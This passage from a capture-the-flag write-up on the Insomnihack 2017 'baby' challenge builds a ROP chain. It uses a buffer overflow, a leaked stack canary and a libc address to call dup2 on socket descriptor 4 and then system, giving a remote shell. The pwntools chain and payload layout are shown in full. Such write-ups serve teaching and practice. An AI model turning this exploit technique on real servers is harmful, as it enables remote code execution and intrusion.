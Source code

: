 
#### ROP Chain

Now that we have a buffer overflow vuln where we can get code exec, a stack canary and libc infoleak, we can make a ROP chain to pop a shell. Since what we are attacking is a remote server, we will have to redirect output to us. I will do this using the `dup2` function, which essentially takes two file descriptors and makes the file opened by the first file descriptor also opened by the second file descriptor. STDIN, STDOUT, and STDERR are file descriptors 0, 1, and 2. The socket which the process uses to talk to us is seen as a file descriptor by the program. Looking in the proc folder, we can see that the file descripter for the socket is `4`:

```
# ps -aux | grep baby
root       3095  0.0  0.0  72716  4424 pts/1    S+   22:22   0:00 sudo gdb ./baby
root       3096  0.0  0.6 136308 55576 pts/1    S+   22:22   0:00 gdb ./baby
baby       3103  0.0  0.0  12972  2328 pts/1    t    22:22   0:00 /Hackery/insomnihack17/baby/baby
guyinat+   3321  0.0  0.0  21536  1112 pts/7    S+   23:24   0:00 grep --color=auto baby
# ls /proc/3103/fd
0  1  2  4
```

So in order to redirect `STDIN`, `STDOUT`, and `STDERR` to us we will need three dup2 calls `dup2(4, 0)`, `dup2(4, 1)`, `dup2(4, 2)`. However after that we can just call system. All in all our payload will look like this:

```
0: 1032 bytes of filler until stack canary
1: 8 byte stack canary
2: 8 bytes of filler until return address
```

followed by that, we have our rop chain (this was automatically generated by pwntools):

```
0x0000:   0x7ffff7a07e6a pop rsi; ret
0x0008:              0x0 [arg1] rsi = 0
0x0010:   0x7ffff7a0555f pop rdi; ret
0x0018:              0x4 [arg0] rdi = 4
0x0020:   0x7ffff7af49a0 dup2
0x0028:   0x7ffff7a07e6a pop rsi; ret
0x0030:              0x1 [arg1] rsi = 1
0x0038:   0x7ffff7a0555f pop rdi; ret
0x0040:              0x4 [arg0] rdi = 4
0x0048:   0x7ffff7af49a0 dup2
0x0050:   0x7ffff7a07e6a pop rsi; ret
0x0058:              0x2 [arg1] rsi = 2
0x0060:   0x7ffff7a0555f pop rdi; ret
0x0068:              0x4 [arg0] rdi = 4
0x0070:   0x7ffff7af49a0 dup2
0x0078:   0x7ffff7a0555f pop rdi; ret
0x0080:   0x7ffff7b97e9a [arg0] rdi = 140737349516954
0x0088:   0x7ffff7a33440 system
```

also I just used pwntool's built in automatic ROP chain building to do this.
